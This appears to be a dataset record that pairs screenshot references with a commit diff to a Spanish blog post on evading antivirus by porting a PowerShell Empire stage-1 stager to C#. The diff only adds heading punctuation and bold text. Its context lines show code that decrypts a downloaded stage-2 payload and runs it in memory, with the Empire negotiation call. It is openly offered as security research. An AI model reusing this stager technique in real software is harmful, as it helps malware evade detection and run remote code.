

Before and after one commit to juliourena/juliourena.github.io, a Jekyll site: the page built from _posts/2018-7-24-AV-Evasion-Converting-PowerEmpire-Stage-1-to-CSharp-ES.md, in a window 1280 px wide and 1400 px high, scrolled down 9881 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; some of the changed text lies outside the part shown.

````diff
--- a/_posts/2018-7-24-AV-Evasion-Converting-PowerEmpire-Stage-1-to-CSharp-ES.md
+++ b/_posts/2018-7-24-AV-Evasion-Converting-PowerEmpire-Stage-1-to-CSharp-ES.md
@@ -115,7 +115,7 @@ $_-bXOr$S[($S[$I]+$S[$H])%256]}};
 
 Ahora tenemos que convertir cada parte de este código en C#. Disfruté mucho aprendiendo algunas clases .Net mientras hacía esta investigación. Comencemos línea por línea.
 
-# De PowerShell a C#
+# De PowerShell a C#.
 
 El **System.Net.ServicePointManager.Expect100Continue** en palabras simples, esta propiedad si es verdadera, las solicitudes del cliente que usan los métodos PUT y POST agregarán un encabezado Expect a la solicitud. Para más información, consulte el [enlace](https://msdn.microsoft.com/en-us/library/system.net.servicepointmanager.expect100continue(v=vs.110).aspx)
 
@@ -289,9 +289,9 @@ byte[] decrypted = RC4.Decrypt(IVK, data_noIV);
 string stage2 = System.Text.Encoding.ASCII.GetString(decrypted);
 ```
 
-# Ejecución de C#
+# Ejecución de C#.
 
-Para ejecutar código en C# podemos usar la clase PowerShell o las clases RunSpace y Pipeline, esto es porque el payload que descargamos de la etapa 2 está en PowerShell. Utilizaremos la clase PowerShell porque, por alguna razón, las clases RunSpace y Pipeline no me funcionaron. En PowerShell, lo ejecutamos usando Invoke-Execution o IEX.
+Para ejecutar código en C# podemos usar la clase **PowerShell** o las clases **RunSpace** y **Pipeline**, esto es porque el payload que descargamos de la etapa 2 está en PowerShell. Utilizaremos la clase PowerShell porque, por alguna razón, las clases RunSpace y Pipeline no me funcionaron. En PowerShell, lo ejecutamos usando Invoke-Execution o IEX.
 
 ```
 // Create a PowerShell Object to execute the command
@@ -304,7 +304,7 @@ PowerShellInstance.AddScript(stage2);
 PowerShellInstance.Invoke();
 ```
 
-Antes de usar el método Invoke(), necesitamos agregar dos variables a la ecuación, que son $ser y $u. Si observas el valor de los datos (stage 2), notarás que ejecuta una llamada de función de Start-Negotiate -s "$ser" -SK 'REPLACE_STAGING_KEY' -UA $u así que, necesitamos pasar las variables $ser y $u para obtener la ejecución, de lo contrario, obtendríamos un error.
+Antes de usar el método Invoke(), necesitamos agregar dos variables a la ecuación, que son **$ser** y **$u**. Si observas el valor de los datos (stage 2), notarás que ejecuta una llamada de función de **Start-Negotiate -s "$ser" -SK 'REPLACE_STAGING_KEY' -UA $u** así que, necesitamos pasar las variables $ser y $u para obtener la ejecución, de lo contrario, obtendríamos un error.
 
 ```
 // Create the variables $ser and $u which are part of the downloaded stage2
````
Also changed, not shown: other parts of _posts/2018-7-24-AV-Evasion-Converting-PowerEmpire-Stage-1-to-CSharp-ES.md (+3 -2 lines), _posts/2018-3-7-WindowsSecurity.md (+2 -0 lines), _posts/2018-7-24-AV-Evasion-Converting-PowerEmpire-Stage-1-to-CSharp-EN.md (+4 -3 lines).
